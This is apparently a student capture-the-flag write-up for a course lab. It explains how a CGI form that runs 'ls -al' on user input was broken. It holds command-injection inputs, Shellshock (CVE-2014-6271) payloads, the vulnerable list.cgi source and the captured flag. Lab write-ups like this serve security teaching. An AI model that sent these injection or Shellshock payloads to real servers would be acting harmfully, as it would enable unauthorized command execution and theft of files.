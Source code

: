 # Environment Variables: CTF #4

## Recognition

- The web server presents a form that executes `ls -al <input>` when submitted, being `<input>` the value of the form field.
- The form is vulnerable to command injection, i.e, when submitting `. && env`, the environment variables are displayed:

  ```
  SERVER_SIGNATURE=
  Apache/2.4.7 (Ubuntu) Server at ctf-fsi.fe.up.pt Port 5002


  UNIQUE_ID=[REDACTED]
  HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
  HTTP_HOST=ctf-fsi.fe.up.pt:5002
  SERVER_PORT=5002
  DOCUMENT_ROOT=/var/www/html
  SCRIPT_FILENAME=/usr/lib/cgi-bin/list.cgi
  REQUEST_URI=/cgi-bin/list.cgi?path=.+%26%26+env
  SCRIPT_NAME=/cgi-bin/list.cgi
  HTTP_CONNECTION=keep-alive
  REMOTE_PORT=[REDACTED]
  PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  path=. && env
  _=/usr/bin/env
  CONTEXT_PREFIX=/cgi-bin/
  SERVER_ADMIN=webmaster@localhost
  PWD=/usr/lib/cgi-bin
  REQUEST_SCHEME=http
  HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
  HTTP_REFERER=http://ctf-fsi.fe.up.pt:5002/
  HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
  HTTP_DNT=1
  HTTP_PRIORITY=u=0, i
  REMOTE_ADDR=[REDACTED]
  SERVER_NAME=ctf-fsi.fe.up.pt
  SHLVL=2
  SERVER_SOFTWARE=Apache/2.4.7 (Ubuntu)
  QUERY_STRING=path=.+%26%26+env
  SERVER_ADDR=10.146.3.2
  GATEWAY_INTERFACE=CGI/1.1
  HTTP_UPGRADE_INSECURE_REQUESTS=1
  SERVER_PROTOCOL=HTTP/1.1
  HTTP_ACCEPT_ENCODING=gzip, deflate
  HTTP_SEC_GPC=1
  REQUEST_METHOD=GET
  CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
  X=.
  ```

  > Note: Some values were redacted from the output because they refer to the client, and thus are not relevant for this analysis.

- The main page includes a list of packages installed on the server, including:

  - apache2/trusty-updates,trusty-security,now 2.4.7-1ubuntu4.22 amd64 [installed]
  - bash/trusty-updates,trusty-security,now 4.3-7ubuntu1.7 amd64 [installed]
  - dash/trusty,now 0.5.7-4ubuntu1 amd64 [installed]
  - sudo/trusty-updates,trusty-security,now 1.8.9p5-1ubuntu1.4 amd64 [installed]
  - ubuntu-minimal/trusty-updates,now 1.325.1 amd64 [installed]

- The path where the `ls` commands are executed is `/usr/lib/cgi-bin`.
  It is worth noting that in the environment variables, there were a lot of references to `cgi-bin`.

- The `/home` directory is empty.

- There is a `flag.txt` file in `/var/flag/flag.txt` with the permissions:

  ```bash
  -rw-r--r-- 1 root root 37 Oct 15 22:45 /var/flag/flag.txt
  ```

- The server does not give any output when trying to execute `cat` command.

  > Despite this, it is possible to access the contents of the file by using the `less` command.  
  > There were found various files (`/tmp/myflag.txt`, `/usr/lib/cgi-bin/logo.cgi`, `/var/flag/flag.txt`) with references to this message:
  >
  > ```
  > "/usr/local/bin/bash" may be a binary file.  See it anyway?
  > ```
  >
  > More specifically, the `flag.txt` file also contains the flag `flag{nepRv5p2brjkL7c7Z4l3tMMq6T1mgO}`, which is the solution at the time of writing. Note that the flag changes periodically.
  > We suspect that the use of `less` was not intended for this CTF.
  >
  > Also, the `less` command gives access to the code inside `/usr/lib/cgi-bin/list.cgi`:
  >
  > ```bash
  > #!/bin/bash
  > echo "Content-type: text/html"
  > echo ""
  > echo "
  >
  > "
  > #echo $QUERY_STRING
  >
  > # (internal) routine to decode urlencoded strings
  > function cgi_decodevar()
  > {
  >     [ $# -ne 1 ] && return
  >     local v t h
  >     # replace all + with whitespace and append %%
  >     t="${1//+/ }%%"
  >     while [ ${#t} -gt 0 -a "${t}" != "%" ]; do
  >         v="${v}${t%%\%*}" # digest up to the first %
  >         t="${t#*%}"       # remove digested part
  >         # decode if there is anything to decode and if not at end of string
  >         if [ ${#t} -gt 0 -a "${t}" != "%" ]; then
  >             h=${t:0:2} # save first two chars
  >             t="${t:2}" # remove these
  >             v="${v}"`echo -e \\\\x${h}` # convert hex to special char
  >         fi
  >     done
  >     # return decoded string
  >     echo "${v}"
  >     return
  > }
  >
  > # routine to get variables from http requests
  > # usage: cgi_getvars method varname1 [.. varnameN]
  > # method is either GET or POST or BOTH
  > # the magic varible name ALL gets everything
  > function cgi_getvars()
  > {
  >     [ $# -lt 2 ] && return
  >     local q p k v s
  >     # get query
  >     case $1 in
  >         GET)
  >             [ ! -z "${QUERY_STRING}" ] && q="${QUERY_STRING}&"
  >             ;;
  >         POST)
  >             cgi_get_POST_vars
  >             [ ! -z "${QUERY_STRING_POST}" ] && q="${QUERY_STRING_POST}&"
  >             ;;
  >         BOTH)
  >             [ ! -z "${QUERY_STRING}" ] && q="${QUERY_STRING}&"
  >             cgi_get_POST_vars
  >             [ ! -z "${QUERY_STRING_POST}" ] && q="${q}${QUERY_STRING_POST}&"
  >             ;;
  >     esac
  >     shift
  >     s=" $* "
  >     # parse the query data
  >     while [ ! -z "$q" ]; do
  >         p="${q%%&*}"  # get first part of query string
  >         k="${p%%=*}"  # get the key (variable name) from it
  >         v="${p#*=}"   # get the value from it
  >         q="${q#$p&*}" # strip first part from query string
  >         # decode and assign variable if requested
  >         [ "$1" = "ALL" -o "${s/ $k /}" != "$s" ] && \
  >             export "$k"="`cgi_decodevar \"$v\"`"
  >     done
  >     return
  > }
  >
  > cgi_getvars GET ALL
  >
  > #echo $path
  >
  > /usr/local/bin/bash -c "env X=$path /usr/local/bin/bash -c \"echo 'ls -al $path' && ls -al $path\""
  >
  > #eval "env dir=$path /bin/bash -c echo 'test'"
  > #dir='() { :;}; echo vulnerable'
  > #echo "Listing ${dir}"
  >
  > #env X=eval $path /usr/local/bin/bash -c "echo test"
  >
  >
  > echo "
  >
  > ""/usr/local/bin/bash" may be a binary file.  See it anyway?
  > ```

## Vulnerability

- The linux machine has the exploit **CVE-2014-6271**, also known as "Shellshock", related to bash and cgi-bin.
- In versions prior to 4.3, GNU Bash processes trailing strings after function definitions inside environment variables [1].
- These environments variables can be modified by the attacker, since they are sent by the web server to the bash shell [3].
- This allows arbitrary command execution and bypass of environment restrictions to execute shell commands [2].

## Exploit

- The exploit [3] consists in setting an environment variable with a shell function inside and the code to be executed after it, like this:
  ```bash
  env 'VAR=() { :;}; <arbitrary code>'
  ```
- For example, if a system is vulnerable, this command will print `Bash is vulnerable!` [3]:
  ```bash
  env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"
  ```

## Vulnerability exploration

To obtain the flag, just submit this code to the main form:

```bash
. && env 'VAR=() { :;}; cat /var/flag/flag.txt'
```

```
[...]
flag{nepRv5p2brjkL7c7Z4l3tMMq6T1mgO}
```

The path and the bash function can be different from this example.

---

#### References:

- [1] https://nvd.nist.gov/vuln/detail/cve-2014-6271
- [2] https://access.redhat.com/security/cve/cve-2014-6271
- [3] https://github.com/opsxcq/exploit-CVE-2014-6271
